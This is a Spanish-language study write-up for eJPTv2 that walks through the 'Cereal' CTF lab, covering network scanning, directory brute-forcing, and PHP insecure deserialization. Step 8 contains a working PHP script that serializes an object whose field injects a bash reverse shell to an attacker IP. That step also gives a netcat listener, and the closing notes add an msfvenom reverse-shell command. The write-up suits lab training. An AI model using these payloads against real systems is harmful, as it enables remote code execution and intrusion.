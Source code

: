 


## 🕸️ #WEB — SERIALIZACIÓN DE DATOS Y DESERIALIZACIÓN INSEGURA (eJPTv2)

---

### 🔧 ¿Qué es la serialización?

> **Serialización**: Mecanismo que convierte un objeto (clase con atributos y métodos) en una cadena de texto para almacenarlo o enviarlo por red.  
> **Deserialización**: Proceso inverso. Si no se valida adecuadamente, puede ser explotada para ejecutar código malicioso.

---

### 📡 1. Escaneo inicial de red interna

Descubrimos hosts activos en la red local con ARP:

bash

CopiarEditar

`sudo arp-scan -I ens33 --localnet --ignoredups`

---

### 🔍 2. Escaneo de puertos

Extraemos todos los puertos abiertos:

bash

CopiarEditar

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.0.49 -oG allPorts`

Luego, escaneamos versiones y servicios específicos (puertos detectados):

bash

CopiarEditar

`nmap -sC -sV -p21,22,80,139,445,3306,11111,22222,22223,33333,33334,44441,44444,55551,55555 192.168.0.49 -oN targeted`

---

### 🌐 3. Descubrimiento de rutas en HTTP

bash

CopiarEditar

`gobuster dir -u http://192.168.0.49/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

---

### 🧭 4. Resolución DNS personalizada

Agregamos la IP a `/etc/hosts`:

CopiarEditar

`192.168.0.49 cereal.ctf`

Si Firefox redirige a Google cuando escribimos `cereal.ctf`, abrimos `about:config` y agregamos:

arduino

CopiarEditar

`browser.fixup.domainsuffixwhitelist.ctf → true`

(Para otros dominios como `.pepito`, simplemente cambia `.ctf` por `.pepito`.)

---

### 🌐 5. Descubrimiento de subdominios

bash

CopiarEditar

`gobuster vhost -u http://cereal.ctf:44441/ -w /usr/share/seclists/Discovery/DNS/subdomains-top-1million-5000.txt -t 20 --append-domain`

> ⚠️ Usamos `--append-domain` porque Gobuster no resuelve bien los subdominios en ese entorno sin él.

Agregamos el subdominio encontrado:

CopiarEditar

`192.168.0.49 secure.cereal.ctf`

---

### 📡 6. Identificamos funcionalidad vulnerable

Abrimos `http://secure.cereal.ctf:44441/`, vemos que realiza pings.  
Nos ponemos en escucha para analizar el tráfico ICMP:

bash

CopiarEditar

`tcpdump -i ens33 icmp -n`

---

### 🛠️ 7. Interceptamos con Burp Suite

Petición interceptada:

makefile

CopiarEditar

`POST / HTTP/1.1 Host: secure.cereal.ctf:44441 ... obj=O:8:"pingTest":1:{s:9:"ipAddress";s:14:"192.168.130.70";}&ip=192.168.130.70`

Aquí vemos el objeto PHP serializado: el servidor lo deserializa y probablemente lo usa sin sanitizar. ⚠️ Vulnerabilidad clara de deserialización PHP.

---

### 💣 8. Explotación de deserialización PHP

Creamos un script en PHP:

php

CopiarEditar

`<?php class pingTest {     public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.130.70/443 0>&1'";     public $isValid = true;     public $output = "";      function __destruct() {         system("ping " . $this->ipAddress);     } }  echo urlencode(serialize(new pingTest()));`

Ejecutamos:

bash

CopiarEditar

`php serialize.php 2>/dev/null; echo`

Copiamos el output y lo pegamos en Burp como nuevo valor del campo `obj`.

Nos ponemos en escucha:

bash

CopiarEditar

`nc -nlvp 443`

---

### 🪜 9. Enumeración avanzada de rutas

Escaneamos el subdominio:

bash

CopiarEditar

`gobuster dir -u http://secure.cereal.ctf:44441/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

Encontramos:

bash

CopiarEditar

`http://secure.cereal.ctf:44441/back_en/`

Devuelve `403 Forbidden` ➜ posible acceso indirecto.

Fuerza bruta dentro de esa ruta:

bash

CopiarEditar

`gobuster dir -u http://secure.cereal.ctf:44441/back_en -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,bak`

🔍 Encontramos: `/index.php.bak`

Este archivo contiene el código fuente original. Lo descargamos y analizamos. Ahí confirmamos si se hace `unserialize($_POST['obj'])` y cómo se usa la clase.

---

### 🧠 Notas adicionales

- Los ataques de deserialización no solo aplican a PHP, también a lenguajes como Python (`pickle`), Java (`readObject()`), Node.js, etc.
    
- Se pueden usar payloads avanzados con herramientas como:
    
    - [`phpggc`](https://github.com/ambionics/phpggc)
        
    - [`ysoserial` (Java)]
        
- Las reverse shells pueden generarse con:
    
    bash
    
    CopiarEditar
    
    `msfvenom -p php/reverse_php LHOST=192.168.130.70 LPORT=443 -f raw`